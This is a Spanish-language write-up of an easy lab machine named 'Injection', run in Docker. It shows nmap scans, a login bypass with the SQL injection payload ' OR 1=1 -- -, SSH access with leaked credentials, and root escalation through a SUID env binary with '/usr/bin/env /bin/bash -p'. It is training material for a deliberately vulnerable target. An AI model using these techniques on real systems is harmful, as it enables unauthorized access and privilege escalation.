





# Dockerlab injection

- Imagen: Injection
- Nivel: Fácil
- Objetivo: Resolver la máquina aplicando SQL Injection.

> ⚠️ **Disclaimer**
>
> No copies y pegues los comandos directamente.
>
> Las IPs, IDs de contenedores y nombres pueden cambiar dependiendo de tu entorno Docker.
>
> La idea del writeup es entender el flujo y adaptar los comandos a tu laboratorio.

## Pasos previos.

Descargamos nuestra imagen desde este enlace [Injection](https://mega.nz/file/rZlAERjY#152uP-zS7pTC0hbPaZB7aO6_puij633u4pW-jpMuctk).

Una vez que la tenemos veremos en nuestras descargas un archivo llamado `injection.zip` lo descomprimimos e ingresamos al directorio, ahí veremos dos archivos:

```text
auto_deploy.sh injection.tar
```
El que nos importa es `injection.tar`

## Carga de la imagen.

Para cargar nuestro archivo `injection.tar` debemos hacerlo de la siguiente forma

```bash
docker load -i injection.tar
```

Para verificar que la imagen esté cargada las listamos de la siguiente manera

```bash
docker image ls
```

si nos fue bien debemos tener un listado similar a esto:

```text
REPOSITORY    TAG       IMAGE ID       CREATED          SIZE
injection     latest    7f560ad3f94b   2 years ago      798MB
```

# Preparando nuestro lab.

Para hacer nuestros ataques usaremos un lab que construí con docker para no depender de distribuciones especificas pesadas con parrot o kali, te dejo enlace al laboratorio [aquí](https://github.com/vmonsalve/infra-docker-hacking-lab) tambien te dejo un post al mismo blog de como usarlo y levantar el sistema, para no perder tiempo [aquí](https://vmonsalve.github.io/el-nacimiento-de-un-lab/).

## Configurando nuestro docker compose para injection.

Dentro de nuestro lab encontraremos este directorio `docker` ahí vive nuestro docker-compose.yml.

Antes de la seccion network dentro de nuestro archivo devemos copiar el siguiente codigo 

```yml
  injection:
    image: injection:latest
    container_name: injection
    tty: true
    stdin_open: true
    ports:
      - "8080:80"
    networks:
      - labnet
```

Si te da flojera usar el menu, desde la raiz del proyecto ejecutas el siguiente comando y deberias levantar todo

```bash
 docker compose -f docker/docker-compose.yml up -d
```
Luego de correr el comando hacemos un:

```bash
docker image ls
```
y deberiamos ver algo similar a esto

```text
REPOSITORY        TAG       IMAGE ID       CREATED          SIZE
docker-attacker   latest    c6a9122f3257   42 minutes ago   2.07GB
injection         latest    7f560ad3f94b   2 years ago      798MB
```

Para comenzar con nuestra batalla debemos hacer lo siguiente

```bash
docker exec -it attacker /bin/bash
```

Obteniendo el siguiente prompt

```text
root@0b44aa32d55e:/workspace#
```
# Comenzando el atacke.

Nuestra primera misión buenos cuackers, es escanear la red para encontrar los dispositivos que queremos cuackear para ello dentro de nuestra maquina attaquer usaremos nmap con la siguiente configuración

```bash
nmap -sn 172.30.0.0/24 
```

El resultado sera la lista con los dispositivos activos dentro de la red.

```text
Starting Nmap 7.93 ( https://nmap.org ) at 2026-05-18 01:10 UTC
Nmap scan report for 172.30.0.1
Host is up (0.0028s latency).
MAC Address: 02:42:AD:97:1C:CB (Unknown)
Nmap scan report for injection.hackinglab (172.30.0.3)
Host is up (0.00047s latency).
MAC Address: 02:42:AC:1E:00:03 (Unknown)
Nmap scan report for 0b44aa32d55e (172.30.0.2)
Host is up.
Nmap done: 256 IP addresses (3 hosts up) scanned in 15.26 seconds
```

Ya tenemos el mapeo de nuestra super red XD con dos maquinas y ya hemos visto a nuestra victima injection, que tiene la ip `172.30.0.3`, nuestro siguiente paso es escanear la máquina en si misma para ver que servicios tiene disponible usando:

```bash
nmap -sC -sV -O 172.30.0.3
```

del cual obtenemos, nuestra preciada lista:

```text
Starting Nmap 7.93 ( https://nmap.org ) at 2026-05-18 01:16 UTC
Nmap scan report for injection.hackinglab (172.30.0.3)
Host is up (0.00080s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 721fe192703f21a20ac6a60eb8a2aad5 (ECDSA)
|_  256 8f3acdfc0326ad494a6ca18939f97c22 (ED25519)
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: Iniciar Sesi\xC3\xB3n
|_http-server-header: Apache/2.4.52 (Ubuntu)
MAC Address: 02:42:AC:1E:00:03 (Unknown)
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.6
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 16.73 seconds
```

Aquí ya tenemos nuestras primeras pistas por donde entrar, como podemos ver tenemos el puerto 80 abierto corriendo apache y el puerto 22 con ssh, el nombre de la maquina nos da una pista y tenemos el purto 80, revisamos nuestro navegador para ver si hay alguna aplicación web corriendo.

Aquí tenemos que tener algo en consideración.

Dentro de nuestra red Docker el servicio web está corriendo en el puerto `80`, pero en nuestro `docker-compose.yml` indicamos que ese puerto debía exponerse hacia nuestra máquina host usando el puerto `8080`.

Por ende, para acceder a la aplicación web desde nuestro navegador debemos usar:

`http://localhost:8080/`

Con lo explicado anteriormente, vamos a nuestro navegador de confianza en mi caso brave y colocamos la url, opteniendo la siguiente pantalla.

<p align="center">
  
</p>

Que no te tirite el ojo por este esplendido diseño XD. Con esto podemos ver por donde va la cosa, como es una maquina easy no creo que el ataque sea muy rebuscado asi que desempolvamos nuestra vieja confiable

```sql 
' OR 1=1 -- -
```

<p align="center">
  
</p>

Damos enter y Boom!! Tenemos acceso al super panel de control XD.

<p align="center">
  
</p>

Aquí tenemos la siguiente pista, un usuario y una contraseña.

```text
usuario: Dylan
password: KJSDFG789FGSDF78
```

Nuestro primer instinto como buenos cuackers es probar las credenciales dentro del mismo login web, lo hacemos

<p align="center">
  
</p>

y nos muestra el mismo super panel anterior, que hacer ahora? como vimos antes, estaba el puerto 22 abierto lo natural es acceder a la máquina con attacker.

Probamos conectarnos con ssh:

```bash
ssh dylan@172.30.0.3
```

Nos va a preguntar si queremos que genere un key fingerprint vo dale no mas dile que si. Luego nos pedira el password, lo colocamos le damos enter y Boom!! ya estamos dentro de la maquina injection.

```text
Welcome to Ubuntu 22.04.4 LTS (GNU/Linux 6.8.0-50-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

dylan@d92a545d8fd3:~$ 
```

# Escalando privilegios.

Ya sabemos que nuestro usuario es `dylan`, por lo que en este punto no es necesario ejecutar `whoami`.

Lo que sí podemos hacer es usar el comando `id`, obteniendo la siguiente salida:

```text
uid=1000(dylan) gid=1000(dylan) groups=1000(dylan)
```
vemos el uid es 1000, esto nos dice que tiene privilegios normales, nada especial por aca xD.

Paso siguiente revisar si nuestro usario tiene algún comando asociado con root, que podamos usar para escalar, para eso usamos `sudo -l`. obteniendo como resultado:

```text
-bash: sudo: command not found
```
El pulento error, ya que el comando `sudo` no existe dentro de esta máquina.

Se van acabando las ideas para escalar privilegios, pero nos queda algo bajo la manga, buscar binarios con acceso root de siguiente manera:

```bash
find / -perm -4000 2>/dev/null
```
Obteniend como resultado la siguiente lista

```text
/usr/bin/su
/usr/bin/mount
/usr/bin/passwd
/usr/bin/env
/usr/bin/newgrp
/usr/bin/chfn
/usr/bin/umount
/usr/bin/chsh
/usr/bin/gpasswd
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
```
Aquí encontramos algo interesante, el comando `/usr/bin/env` este tipo de binarios suele aparecer documentado en `GTFOBins`, que suelen ser utilizados para escalar privilegios. Por qué pasa esto? Por que al ejecutarse dentro del sistema lo hace con el permiso del dueño y en este caso es el usuario `root`, pero esto ocurre usando determinada configuración como por ejemplo

```bash
/usr/bin/env /bin/bash -p
```
Estamos usando el binario `env` para ejecutar un `bash` con permisos de `env`. Quien permite esta magia? el flag `-p`, que hace que se conserven los permisos de `env`. Damos enter Boom!!, vemos que el prompt cambia:

```bash
bash-5.1#
```

Hacemos nuevamente un `whoami`, para ver que usuario somos:

```text
root
```
Ahora la máquina es totalmente nuestra :D.

<p align="center">
  
</p>